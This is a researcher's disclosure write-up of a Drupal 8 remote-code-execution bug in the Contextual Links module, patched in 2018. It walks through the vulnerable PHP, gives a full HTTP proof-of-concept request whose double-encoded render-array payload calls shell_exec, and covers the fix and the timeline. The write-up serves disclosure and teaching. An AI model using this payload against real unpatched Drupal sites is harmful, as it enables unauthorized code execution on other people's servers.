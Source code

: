 ```yaml
---
layout: post
title: Drupal Core PHP Code Injection
categories: security
---
```


## Drupal Overview and History

Drupal is a content management system. In March of 2018, a vulnerability dubbed Drupalgeddon2 was announced ([CVE-2018-7600](https://nvd.nist.gov/vuln/detail/cve-2018-7600), [SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)) that enabled an unauthenticated attacker to achieve remote code execution on most versions of Drupal with default configuration.

The vulnerability was caused by Drupal's [render arrays](https://www.drupal.org/docs/drupal-apis/render-api/render-arrays). Render arrays are just ordinary PHP arrays, except that keys that start with # are given special processing that allow code execution by design. These generally aren't meant to come from user input, so the Drupal maintainers patched this by implementing a broad [RequestSanitizer](https://github.com/drupal/drupal/blob/8.6.1/core/lib/Drupal/Core/Security/RequestSanitizer.php). The sanitizer runs early in the page load and strips array keys that begin with # from the query string.

Additional paths for exploitation were found in April 2018 ([SA-CORE-2018-004](https://www.drupal.org/sa-core-2018-004)) and the RequestSanitizer was expanded to process the request body and cookies as well.

## Search
The knowledge that something like Drupalgeddon2 could be lurking in the codebase for so long motivated me to begin looking for my own RCE in Drupal in my free time.

I made a spreadsheet of every URL route in Drupal and initially focused on routes available to unauthenticated users. After a few weeks without success, I started looking at routes that required low-level user permissions, and pretty quickly found an issue in the core Contextual Links module.

## Vector
The [Contextual Links module](https://www.drupal.org/docs/8/core/modules/contextual/working-with-contextual-links) enables users to edit content or perform other tasks while browsing their site without navigating to the administrator UI.

![Person using contextual links module](/assets/contextual-menu.gif "Image from Drupal.org under the <a href='https://www.drupal.org/terms'>Creative Commons License, Attribution-ShareAlike 2.0</a>")

As the functionality is used in several different contexts, the controller that handles rendering them is very generic.

```php
  /**
   * Returns the requested rendered contextual links.
   *
   * Given a list of contextual links IDs, render them. Hence this must be
   * robust to handle arbitrary input.
   */
  public function render(Request $request) {
    $ids = $request->request->get('ids');
    if (!isset($ids)) {
      throw new BadRequestHttpException(t('No contextual ids specified.'));
    }

    $rendered = [];
    foreach ($ids as $id) {
      $element = [
        '#type' => 'contextual_links',
        '#contextual_links' => _contextual_id_to_links($id),
      ];
      $rendered[$id] = $this->renderer->renderRoot($element);
    }

    return new JsonResponse($rendered);
  }
```

We can see that user input from the `ids` parameter in the request POST body is processed by `_contextual_id_to_links` before being added to a render array. The render array is then rendered and the result is returned to the user. Let's look at `_contextual_id_to_links`.

```php
/**
 * Unserializes the result of _contextual_links_to_id().
 *
 * @see _contextual_links_to_id
 *
 * @param string $id
 *   A serialized representation of a #contextual_links property value array.
 *
 * @return array
 *   The value for a #contextual_links property.
 */
function _contextual_id_to_links($id) {
  $contextual_links = [];
  $contexts = explode('|', $id);
  foreach ($contexts as $context) {
    list($group, $route_parameters_raw, $metadata_raw) = explode(':', $context);
    parse_str($route_parameters_raw, $route_parameters);
    $metadata = [];
    parse_str($metadata_raw, $metadata);
    $contextual_links[$group] = [
      'route_parameters' => $route_parameters,
      'metadata' => $metadata,
    ];
  }
  return $contextual_links;
}
```

Here we see the user-provided id is split into three parts separated by :. The latter two parts are then passed through the PHP [parse_str](https://www.php.net/manual/en/function.parse-str.php) which treats them as a URL-encoded query string.

At this point it might seem like all we need to do is pass a double-URL-encoded query string in for one of these parameters and we'll have our render array injection, but if I recall correctly, that didn't work. However, the metadata parameter receives further processing later on that provides another avenue.

```php
/**
 * Implements hook_contextual_links_view_alter().
 *
 * @see \Drupal\contextual\Plugin\views\field\ContextualLinks::render()
 */
function contextual_contextual_links_view_alter(&$element, $items) {
  if (isset($element['#contextual_links']['contextual'])) {
    $encoded_links = $element['#contextual_links']['contextual']['metadata']['contextual-views-field-links'];
    $element['#links'] = Json::decode(rawurldecode($encoded_links));
  }
}
```

By passing a JSON encoded array for the `contextual-views-field-links` subparameter of `metadata`, we can inject a render array while evading the `RequestSanitizer`.

## Proof of Concept
The POC below requires the ‘Access Contextual Links' permission to be granted to unauthenticated users.

```http
POST /contextual/render HTTP/1.1
Host: local.test
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 906

ids[]=contextual::contextual-views-field-links=%257B%250A%2520%2520%2520%2520%2522asdf%2522%253A%250A%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522title%2522%253A%2520%257B%2522%2523lazy_builder%2522%253A%2520%255B%2522shell_exec%2522%252C%2520%255B%2522touch%2520%252Ftmp%252Fhellofromviews%2522%255D%255D%257D%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522href%2522%253A%2520%2522asdf%2522%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522attributes%2522%253A%250A%2520%2520%2520%2520%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522class%2522%253A%255B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522use-ajax%2522%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%255D%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%257D%250A%257D
```

The payload corresponds to a double-URL-encoding of this:

```json
{
    "asdf":
    {
        "title": {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]},
        "href": "asdf",
        "attributes":
        {
            "class":[
                "use-ajax"
            ]
        }
    }
}
```

When the array is rendered, shell_exec is called and a file is created in the tmp directory as proof.

## Patch
The issue was patched by returning an HMAC code along with the contextual links id list at the time it's generated, and then taking that code as an additional parameter at render time and validating it.

## Timeline
* August 29, 2018 08:50 PM - Reported to Drupal security team
* August 30, 2018 12:57 AM - Report validated by Drupal security team
* October 17, 2018 - Fix released in Drupal 8.5.8 and Drupal 8.6.2 ([DRUPAL-SA-CORE-2018-006](https://www.drupal.org/sa-core-2018-006))
